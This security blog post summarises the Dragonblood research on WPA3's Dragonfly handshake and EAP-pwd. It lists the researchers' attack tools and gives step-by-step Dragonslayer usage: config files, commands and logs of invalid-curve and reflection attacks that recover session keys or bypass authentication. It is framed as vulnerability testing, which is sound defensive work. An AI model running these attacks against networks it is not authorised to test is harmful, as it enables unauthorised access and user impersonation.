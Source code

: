 ```yaml
---
layout: post
title:  "DragonBlood - WPA3 Attack toolkit"
description: "An overview of a newly released attack toolkit against WPA3"
date:   2019-04-10 13:49:33 +0000
tags: [Malware, Incident Response, Red-Team, Pentesting, Offensive, Defensive]
---
```


![Dragonfly WPA3 logo](/blog/assets/dragonfly.png)

## Dragonblood
Currently, all modern Wi-Fi networks use WPA2 to protect transmitted data. However, because WPA2 is more than 14 years old, the Wi-Fi Alliance recently announced the new and more secure WPA3 protocol. One of the main advantages of WPA3 is that, thanks to its underlying Dragonfly handshake, it's near impossible to crack the password of a network. Unfortunately, researchers found that even with WPA3, an attacker within range of a victim can still recover the password of the Wi-Fi network. 

The Dragonfly handshake, which forms the core of WPA3, is also used on certain Wi-Fi networks that require a username and password for access control. That is, Dragonfly is also used in the EAP-pwd protocol. Unfortunately, our attacks against WPA3 also work against EAP-pwd, meaning an adversary can even recover a user's password when EAP-pwd is used. Moreover, we also discovered serious bugs in most products that implement EAP-pwd. These allow an adversary to impersonate any user, and thereby access the Wi-Fi network, without knowing the user's password. Although we believe that EAP-pwd is used fairly infrequently, this still poses serious risks for many users, and illustrates the risks of incorrectly implementing Dragonfly.

The technical details behind our attacks against WPA3 can be found in our detailed research paper titled [Dragonblood: A Security Analysis of WPA3's SAE Handshake](https://papers.mathyvanhoef.com/dragonblood.pdf)

### Tools
Mathy Vanhoef (NYUAD) and Eyal Ronen (Tel Aviv University & KU Leuven) have released some scripts to test for certain vulnerabilities within the Dragonfly protocol within WPA3:
 * [Dragonslayer](https://github.com/vanhoefm/dragonslayer): implements attacks against EAP-pwd (to be released shortly).
 * [Dragondrain](https://github.com/vanhoefm/dragondrain-and-time): this tool can be used to test to which extend an Access Point is vulnerable to denial-of-service attacks against WPA3's SAE handshake.
 * [Dragontime](https://github.com/vanhoefm/dragondrain-and-time): this is an experimental tool to perform timing attacks against the SAE handshake if MODP group 22, 23, or 24 is used. Note that most WPA3 implementations by default do not enable these groups.
 * [Dragonforce](https://github.com/vanhoefm/dragonforce): this is an experimental tool which takes the information recover from our timing or cache-based attacks, and performs a password partitioning attack. This is similar to a dictionary attack.

### Dragonslayer / EAP-PWD Attacks
### Testing attacks against the server
#### Preparation
Edit the file dragonslayer/client.conf and specify:
 * The SSID of the network name using the ssid parameter.
 * A valid EAP-pwd username using the identity parameter. The attacks don't work with an invalid username.
 * Leave the other parameters untouched.

An example of dragonslayer/client.conf is the following:
```
network={
	ssid="dragonblood"
	key_mgmt=WPA-EAP
	eap=PWD
	identity="bob"
	password="unknown password"
}
```

#### Invalid curve attack
To test whether an EAP-pwd server is vulnerable to invalid curve attacks, start dragonslayer-client.sh using the -a 1 parameter. You must also specify the wireless interface being used with the -i parameter. For example:
```
[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
[sudo] password for mathy: 
Successfully initialized wpa_supplicant
wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
wlp2s0: Associated with 38:2c:4a:c1:69:c0
wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
     65 2e 63 6f 6d                                    e.com           
EAP-pwd: provisioned group 19
[03:21:18] 38:2c:4a:c1:69:c0: sending a scalar equal to zero
[03:21:18] 38:2c:4a:c1:69:c0: sending generator of small subgroup as the element
[03:21:18] 38:2c:4a:c1:69:c0: trying to recover session key..
[03:21:18] 38:2c:4a:c1:69:c0: successfully recovered the session key. Server is vulnerable to invalid curve attack!
wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
wlp2s0: WPA: Key negotiation completed with 38:2c:4a:c1:69:c0 [PTK=CCMP GTK=CCMP]
wlp2s0: CTRL-EVENT-CONNECTED - Connection to 38:2c:4a:c1:69:c0 completed [id=0 id_str=]
```
Notice that the tool will display Server is vulnerable to invalid curve attack! if it is indeed vulnerable. If this message is not vulnerable, try performing the attack a few times again. If none of the attack attempts succeed, the EAP-pwd server is not vulnerable to this specific attack. In this case, also try attacking the EAP-pwd server using a small variant of the invalid curve attack using the -a 2 parameter:
```
 [mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 2
 ...
```
Similar to the case above, it will display Server is vulnerable to invalid curve attack! if it is indeed vulnerable. If this message is not displayed after several attempts, the EAP-pwd server is not vulnerable to this specific attack.

We also recommend that you audit the server code itself. It can be that these specific attacks don't work, but that more specialized attacks would still work.

#### Reflection attack
To test whether an EAP-pwd server is vulnerable to a reflection attack, start dragonslayer-client.sh using the -a 0 parameter. You must also specify the wireless interface being used with the -i parameter. For example:
```
[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 0
Successfully initialized wpa_supplicant
wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
wlp2s0: Associated with 38:2c:4a:c1:69:c0
wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
     65 2e 63 6f 6d                                    e.com           
EAP-pwd: provisioned group 19
[03:22:11] 38:2c:4a:c1:69:c0: Reflected server scalar and element in commit frame
[03:22:11] 38:2c:4a:c1:69:c0: Skipping verification of recieved confirm value
[03:22:11] 38:2c:4a:c1:69:c0: Reflected confirm value in confirm frame
wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
[03:22:11] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
[03:22:12] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
[03:22:13] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
[03:22:14] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
```

The tool will display server is vulnerable to reflection attack! if it is vulnerable. If this message is not display, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.

### Testing attacks against the client
#### Preparation
First modify dragonslayer/hostapd.conf and edit the line interface= to specify the Wi-Fi interface that will be used to execute the tests. Note that for all tests, once the script is running, you must let the device being tested connect to the SSID dragonslayer with as username bob and the password can be anything. You can change settings of the AP by modifying dragonslayer/hostapd.conf.

#### Invalid curve attack
To test whether an EAP-pwd client is vulnerable to invalid curve attacks, start dragonslayer-server.sh using the -a 1 parameter. Using the server is running, connect to it with the client you want to test. For example:
```
[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-server.sh -a 1
Configuration file: hostapd.conf
Using interface wlp2s0 with hwaddr 8a:f5:40:f9:5d:c0 and ssid "dragonblood"
wlp2s0: interface state UNINITIALIZED->ENABLED
wlp2s0: AP-ENABLED 
wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: authenticated
wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: associated (aid 1)
wlp2s0: CTRL-EVENT-EAP-STARTED c4:e9:84:db:fb:7b
wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
EAP-pwd: provisioned group 19
[03:48:15] c4:e9:84:db:fb:7b: sending a scalar equal to zero
[03:48:15] c4:e9:84:db:fb:7b: sending generator of small subgroup as the element
[03:48:15] c4:e9:84:db:fb:7b: configured X-coordinate of subgroup generator as session key
[03:48:15] c4:e9:84:db:fb:7b: Successfully recovered the session key. Client is vulnerable to invalid curve attack!
wlp2s0: CTRL-EVENT-EAP-SUCCESS c4:e9:84:db:fb:7b
wlp2s0: STA c4:e9:84:db:fb:7b WPA: pairwise key handshake completed (RSN)
wlp2s0: AP-STA-CONNECTED c4:e9:84:db:fb:7b
wlp2s0: STA c4:e9:84:db:fb:7b RADIUS: starting accounting session 35BB5B4BB3793544
wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.1X: authenticated - EAP type: 0 (unknown)
```
The tool will display Client is vulnerable to invalid curve attack! if it is vulnerable. If this message is not display, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.

## Papers
* https://papers.mathyvanhoef.com/dragonblood.pdf

